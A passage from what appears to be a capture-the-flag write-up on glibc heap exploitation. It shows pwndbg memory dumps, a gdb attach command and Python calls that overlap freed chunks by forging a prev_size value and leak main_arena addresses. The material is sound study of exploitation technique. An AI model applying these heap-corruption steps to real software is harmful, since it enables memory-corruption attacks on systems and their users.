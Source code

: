 07:0038│   0x6020f8 (itemlist+56) —▸ 0x191c2a0 ◂— '3333333333333333'
08:0040│   0x602100 (itemlist+64) ◂— 0xf0
09:0048│   0x602108 (itemlist+72) —▸ 0x191c2c0 ◂— 0x6161616161616161 ('aaaaaaaa')
0a:0050│   0x602110 (itemlist+80) ◂— 0x68 /* 'h' */
0b:0058│   0x602118 (itemlist+88) —▸ 0x191c3c0 ◂— 0x6262626262626262 ('bbbbbbbb')
0c:0060│   0x602120 (itemlist+96) ◂— 0xf0
0d:0068│   0x602128 (itemlist+104) —▸ 0x191c430 ◂— 0x6363636363636363 ('cccccccc')
0e:0070│   0x602130 (itemlist+112) ◂— 0x10
0f:0078│   0x602138 (itemlist+120) —▸ 0x191c530 ◂— 'dddddddddddddddd'
10:0080│   0x602140 (itemlist+128) ◂— 0x0
... ↓
```
then similar to above, but this time also del the 2nd chunk before then the fd make sense
```python
add(0xf0, 'a' * 0xf0)
add(0x68, 'b' * 0x68)
add(0xf0, 'c' * 0xf0)
add(0x10, 'd' * 0x10)

delete(4)
edit(5, 0x68, flat('1' * 0x60, 0x170))
delete(6)
delete(5)
pause()
add(0x120, flat(cyclic(n = 8, length = 0x120)))
```
```gdb -q -p `pidof pwn` -ex "b *0x400AB8" -ex "c"```
0x183f3c0 is the position we need
```
 ► 0x400ab8 <add_item+257>    call   read@plt <read@plt>
        fd: 0x0
        buf: 0x183f2c0 —▸ 0x7f8ff4af8dd8 (main_arena+696) —▸ 0x7f8ff4af8dc8 (main_arena+680) —▸ 0x7f8ff4af8db8 (main_arena+664) —▸ 0x7f8ff4af8da8 (main_arena+648) ◂— ...
        nbytes: 0x120
pwndbg> x/90gx 0x183f2c0-0x10
0x183f2b0:	0x0000000000000000	0x0000000000000131
0x183f2c0:	0x00007f8ff4af8dd8	0x00007f8ff4af8dd8
0x183f2d0:	0x6161616161616161	0x6161616161616161
0x183f2e0:	0x6161616161616161	0x6161616161616161
0x183f2f0:	0x6161616161616161	0x6161616161616161
0x183f300:	0x6161616161616161	0x6161616161616161
0x183f310:	0x6161616161616161	0x6161616161616161
0x183f320:	0x6161616161616161	0x6161616161616161
0x183f330:	0x6161616161616161	0x6161616161616161
0x183f340:	0x6161616161616161	0x6161616161616161
0x183f350:	0x6161616161616161	0x6161616161616161
0x183f360:	0x6161616161616161	0x6161616161616161
0x183f370:	0x6161616161616161	0x6161616161616161
0x183f380:	0x6161616161616161	0x6161616161616161
0x183f390:	0x6161616161616161	0x6161616161616161
0x183f3a0:	0x6161616161616161	0x6161616161616161
0x183f3b0:	0x0000000000000100	0x0000000000000070
0x183f3c0:	0x0000000000000000	0x3131313131313131
0x183f3d0:	0x3131313131313131	0x3131313131313131
0x183f3e0:	0x3131313131313131	0x0000000000000141
0x183f3f0:	0x00007f8ff4af8b78	0x00007f8ff4af8b78
0x183f400:	0x3131313131313131	0x3131313131313131
0x183f410:	0x3131313131313131	0x3131313131313131
0x183f420:	0x0000000000000170	0x0000000000000100
0x183f430:	0x6363636363636363	0x6363636363636363
0x183f440:	0x6363636363636363	0x6363636363636363
0x183f450:	0x6363636363636363	0x6363636363636363
0x183f460:	0x6363636363636363	0x6363636363636363
0x183f470:	0x6363636363636363	0x6363636363636363
0x183f480:	0x6363636363636363	0x6363636363636363